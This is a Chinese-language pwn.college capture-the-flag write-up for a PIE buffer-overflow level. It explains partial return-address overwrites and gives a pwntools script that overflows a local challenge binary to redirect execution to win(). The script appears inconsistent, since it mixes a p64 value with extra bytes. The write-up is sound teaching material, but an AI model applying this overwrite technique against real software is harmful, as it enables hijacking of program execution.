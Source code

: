 # 挑战简介
```
在之前的关卡中，您知道 win() 的地址，因为二进制文件始终加载到内存中的同一位置。在本关中，我们将探索溢出的可执行文件与位置无关时的挑战！位置无关的可执行文件加载到内存中的随机位置。因此，您无法确切知道 win() 函数的位置。

那么如何解决这个问题？在 x86（以及大多数其他现代架构）上，内存逐页映射到进程的内存空间中。出于性能和内存管理的原因，内存页面是一个连续的 0x1000（4096）字节块，从与 0x1000 对齐的页面地址开始
（稍后将在 pwn.college 课程中详细介绍！）。例如，以下都是潜在页面地址的示例：

0x5f7be1ec2000
0x7ee1382c9000
0x6513a3b67000
您看到最后三位数字（例如，12 位，或 1.5 个字节，或亲切地称为 3 个“半字节”）全为 0 了吗？我们可以使用它来部分预测二进制文件中的地址。例如，假设我们的 win() 函数位于二进制文件开头之后 0x1337 个字节处
（因此，如果二进制文件不是位置无关的，它很可能位于 0x401337）。这意味着，例如，如果我们的 PIE 二进制文件加载到页面地址 0x6513a3b67000，它的 win 函数将位于 0x6513a3b68337。如果它在 0x5f7be1ec2000 处加载，
则其 win 函数将位于 0x5f7be1ec3337，依此类推。

因此，实际上，需要知道二进制文件中任何地址的最后三个半字节，因为这些半字节不会因页面对齐（对齐到 0x1000 字节）而改变。这为我们提供了一种解决方法：我们可以覆盖保存的返回地址的最低有效字节
（我们可以通过调试二进制文件知道），以将返回重新定位到共享其他 7 个字节的任何指令。由于最后一个字节在执行之间将保持不变（由于页面对齐），因此这始终有效。如果我们想要重定向执行的地址离保存的返回地址稍远，
并且我们需要写入两个字节，那么其中一个半字节（第四个最低有效字节）将是一个猜测，并且 16 次中有 15 次是错误的。这没关系：我们可以运行我们的漏洞几次，直到它起作用（从统计上讲，11 次后的机会约为 50%，36 次后的机会约为 90%）。
```

# 思路
此题乍看有些抽象,但是原理很简单
这一题将不会再有固定的win地址,取而代之的随机的内存分布的win地址
内存分布有一个特点,就是有顺序的均匀分布,所以可以通过修改后三个半字节来定位到win函数的内存分布
但是需要解释几点
- 尽量不要用p64,因为p64所占据的栈空间是一整条的8字节,没有充满p64会用00补足,所以输入可以用b'\x'的格式进行逐个字节的输入
- 此题后三个半字节是固定的,所以后第四位的半字节是随机的,你需要不断尝试,总会成功
**答案如下**
```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-pie-overflow-w')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
win_authed_address = p64(0x2084)    #这里只是我尝试的p64的实例,你会在返回的栈空间的情况中一睹为快
#offset_last = 
payload = b'a' * 48 + win_authed_address + b'\x84\x10'    #\x10中的1是我定向的随机数
p.send(payload)
p.recvall()
```
